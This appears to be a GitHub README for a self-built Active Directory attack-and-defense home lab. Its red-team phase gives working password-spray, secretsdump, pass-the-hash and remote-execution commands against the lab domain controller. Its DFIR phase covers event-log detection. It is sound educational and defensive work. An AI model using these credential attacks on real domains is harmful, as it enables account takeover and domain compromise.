# 🏴 Operation Blackwood — Active Directory Attack & Defense Lab

> **A full-cycle enterprise AD lab: Build it. Break it. Investigate it.**  
> Red Team attacks | Blue Team detection | DFIR case file documentation

---

## 📋 Project Overview

**Operation Blackwood** is a hands-on home lab simulating a realistic enterprise Active Directory environment built entirely on VirtualBox. The lab walks through three complete phases — standing up a domain from scratch, attacking it using real adversary tooling, and investigating the compromise as a DFIR analyst.

This project is part of the **SentinelView Trilogy**:

| Project | Role | Focus |
|---------|------|-------|
| 🔵 SentinelView | SOC Dashboard | 13 MITRE ATT&CK detection rules, live on Vercel |
| 🔴 Operation Blackwood | AD Attack & Defense | This project |
| 🟣 MetaProbe | Python DFIR Tool | In development |

---

## 🧰 Lab Environment

### Infrastructure

```
┌──────────────────────────────────────────────────────────────┐
│                    VirtualBox Host (Windows 11)              │
│                                                              │
│  ┌───────────────────────┐   ┌────────────────────────────┐  │
│  │  DC01                 │   │  WRK01                     │  │
│  │  Windows Server 2025  │   │  Windows 11 Enterprise     │  │
│  │  Domain Controller    │   │  Domain-Joined Workstation │  │
│  │  192.168.10.10        │   │  192.168.10.11             │  │
│  │  BLACKWOOD.local      │   │  BLACKWOOD\localadmin      │  │
│  └───────────────────────┘   └────────────────────────────┘  │
│                                                              │
│  ┌───────────────────────┐                                   │
│  │  KALI                 │                                   │
│  │  Kali Linux 2024      │                                   │
│  │  External Attacker    │                                   │
│  │  192.168.10.99        │                                   │
│  │  eth0: NAT (internet) │                                   │
│  │  eth1: blackwood-lab  │                                   │
│  └───────────────────────┘                                   │
│                                                              │
│         [ Internal Network: blackwood-lab ]                  │
│              192.168.10.0/24 — Fully Isolated                │
└──────────────────────────────────────────────────────────────┘
```

### Software

| Component | Version | Role |
|-----------|---------|------|
| VirtualBox | 7.x | Hypervisor |
| Windows Server 2025 (Eval) | DC01 | Domain Controller |
| Windows 11 Enterprise (Eval) | WRK01 | Client Workstation |
| Kali Linux | 2024.x | Attack Platform |

---

## 👥 Domain Users

| Name | Username | OU | Role | Intentional Weakness |
|------|----------|----|------|----------------------|
| John Smith | jsmith | HR | Standard User | Weak password — spray target |
| Alice Turner | aturner | IT | Domain Admin | Guessable password — PTH target |
| Bob Carter | bcarter | Finance | Standard User | Weak password |
| SVC-Backup | svc-backup | Service Accounts | Service Account | SPN registered — Kerberoast target |

---

## 🏗️ Phase 1: Build the Domain

### Network Configuration

All VMs use VirtualBox Internal Network adapter `blackwood-lab` for full isolation from the host network. Kali has an additional NAT adapter for internet access (tool updates, wordlists).

### Domain Controller Setup (DC01)

```powershell
# Set static IP
New-NetIPAddress -InterfaceAlias "Ethernet" `
  -IPAddress 192.168.10.10 `
  -PrefixLength 24 `
  -DefaultGateway 192.168.10.1

Set-DnsClientServerAddress -InterfaceAlias "Ethernet" `
  -ServerAddresses 127.0.0.1

# Install AD DS and promote to Domain Controller
Install-WindowsFeature AD-Domain-Services -IncludeManagementTools

Install-ADDSForest `
  -DomainName "BLACKWOOD.local" `
  -DomainNetbiosName "BLACKWOOD" `
  -ForestMode "WinThreshold" `
  -DomainMode "WinThreshold" `
  -InstallDns:$true `
  -Force:$true
```

### OU Structure

```
BLACKWOOD.local
└── _BLACKWOOD
    ├── Computers
    │   ├── Workstations   ← WRK01
    │   └── Servers
    ├── Users
    │   ├── IT             ← aturner (Domain Admin)
    │   ├── HR             ← jsmith (spray target)
    │   └── Finance        ← bcarter
    ├── Groups
    └── Service Accounts   ← svc-backup (Kerberoast target)
```

### Group Policy Objects

| GPO | Linked To | Purpose |
|-----|-----------|---------|
| LAB-Audit-Policy | BLACKWOOD.local (domain) | Enables security event logging for DFIR |
| LAB-Disable-Defender | Workstations OU | Simulates misconfigured endpoint protection |

**Audit Policy configured (Success + Failure):**
- Credential Validation
- Account Logon / Logoff
- Kerberos Authentication Service
- Kerberos Service Ticket Operations
- Directory Service Access
- Sensitive Privilege Use

### Screenshots — Phase 1

| Screenshot | Description |
|------------|-------------|
|  | VirtualBox showing all 3 VMs |
|  | DC01 static IP confirmed |
|  | BLACKWOOD.local domain controller |
|  | Full OU tree |
|  | All four users in correct OUs |
|  | GPOs linked |
|  | WRK01 domain joined and in Workstations OU |

---

## ⚔️ Phase 2: Breach — Red Team Simulation

> **Scenario:** External attacker on the same network segment (192.168.10.99) achieves full domain compromise in under 22 minutes using only credential-based attacks — no zero-days, no exploits.

### MITRE ATT&CK Coverage

| Technique | ID | Tool | Result |
|-----------|-----|------|--------|
| Network Service Scanning | T1046 | nmap | DC01 ports mapped |
| Network Share Discovery | T1135 | crackmapexec | BLACKWOOD.local enumerated |
| Password Spraying | T1110.003 | crackmapexec | jsmith:Password123! compromised |
| Kerberoasting | T1558.003 | Impacket | Attempted — Server 2025 compatibility noted¹ |
| Credential Dumping | T1003.006 | impacket-secretsdump | aturner NTLM hash extracted |
| Pass-the-Hash | T1550.002 | crackmapexec | aturner Domain Admin access confirmed |
| Remote Command Execution | T1021.002 | crackmapexec -x | SYSTEM level execution on DC01 |

> ¹ **Kerberoasting note:** Impacket's GetUserSPNs.py produced persistent KRB_AP_ERR_SKEW errors against Windows Server 2025 despite NTP synchronization. This is a known compatibility issue with Server 2025's updated Kerberos implementation. The SPN was confirmed registered on svc-backup via `setspn -L`. Event ID 4769 would still fire on ticket request attempts, making detection possible even when the attack tool fails. Alternative tooling (Rubeus) would succeed in a real engagement.

### Attack Chain

```
[T+00:00]  Nmap scan — 192.168.10.10 ports 88,135,139,389,445,5985 open
[T+02:14]  crackmapexec SMB enum — BLACKWOOD.local confirmed
[T+04:31]  Password spray begins — 41 x Event ID 4625 in 90 seconds
[T+04:33]  jsmith:Password123! — [+] valid — Event ID 4624
[T+06:10]  secretsdump — aturner NTLM hash extracted
[T+14:22]  Pass-the-Hash — aturner (Pwn3d!) — Event ID 4776
[T+22:01]  Remote execution — blackwood\aturner on DC01 confirmed
```

### Key Commands

```bash
# Reconnaissance
sudo nmap -sV -sC -p- 192.168.10.10 -oN scans/dc01-fullscan.txt
crackmapexec smb 192.168.10.0/24

# Password Spray
crackmapexec smb 192.168.10.10 -u users.txt -p 'Password123!' --continue-on-success

# Credential Extraction
impacket-secretsdump jsmith:'Password123!'@192.168.10.10 -just-dc-user aturner

# Pass-the-Hash
crackmapexec smb 192.168.10.10 -u aturner -H <NTLM_HASH>

# Remote Execution
crackmapexec smb 192.168.10.10 -u aturner -H <NTLM_HASH> -x "whoami"
```

### Screenshots — Phase 2

| Screenshot | Description |
|------------|-------------|
|  | Nmap scan — key ports open |
|  | SMB enumeration — domain confirmed |
|  | Password spray — jsmith [+] hit |
|  | NTLM hash extracted |
|  | Pass-the-Hash — Pwn3d! |
|  | Remote execution — domain compromise confirmed |

---

## 🔍 Phase 3: Investigate — DFIR Case File

> *Full case file: [dfir/DFIR-CASE-001.md](dfir/DFIR-CASE-001.md)*

### Evidence Collection

```powershell
# Export Security event log
New-Item -ItemType Directory -Path "C:\Evidence" -Force
wevtutil epl Security C:\Evidence\DC01-Security.evtx

# Export key auth events to CSV
Get-WinEvent -FilterHashtable @{
  LogName   = 'Security'
  Id        = 4625,4624,4776,4648,4672
  StartTime = (Get-Date).AddDays(-1)
} | Export-Csv C:\Evidence\auth-events.csv -NoTypeInformation
```

### Key Event IDs Investigated

| Event ID | Description | Attack Stage |
|----------|-------------|--------------|
| 4625 | Failed Logon — 41 failures in 90 sec from 192.168.10.99 | Password Spray |
| 4624 | Successful Logon — jsmith, Logon Type 3, source 192.168.10.99 | Initial Access |
| 4776 | NTLM Auth — aturner, multiple 0x0 success codes | Pass-the-Hash |
| 4769 | Kerberos Service Ticket — RC4 (0x17) encryption type | Kerberoasting |
| 4672 | Special Privileges Assigned | Privilege Escalation |

### Detection Signatures

```
Password Spray    →  >10 Event ID 4625 from single IP within 5 minutes
Pass-the-Hash     →  Event ID 4776 with 0x0 success from unexpected source IP
Kerberoasting     →  Event ID 4769 with EncryptionType = 0x17 (RC4)
Lateral Movement  →  Event ID 4648 paired with 4672 (special privileges)
```

### Log Analysis

```powershell
# Detect spray — group failures by source IP
Get-WinEvent -Path "C:\Evidence\DC01-Security.evtx" |
  Where-Object { $_.Id -eq 4625 } |
  Select-Object TimeCreated,
    @{N='SourceIP';E={$_.Properties[19].Value}},
    @{N='TargetUser';E={$_.Properties[5].Value}} |
  Group-Object SourceIP |
  Where-Object Count -gt 5 |
  Sort-Object Count -Descending

# Isolate aturner PTH events
Get-WinEvent -Path "C:\Evidence\DC01-Security.evtx" |
  Where-Object { $_.Id -eq 4776 } |
  Select-Object TimeCreated,
    @{N='Account';E={$_.Properties[1].Value}},
    @{N='Workstation';E={$_.Properties[2].Value}},
    @{N='ErrorCode';E={$_.Properties[3].Value}} |
  Where-Object Account -eq "aturner"
```

### Screenshots — Phase 3

| Screenshot | Description |
|------------|-------------|
|  | Evidence directory and evtx export |
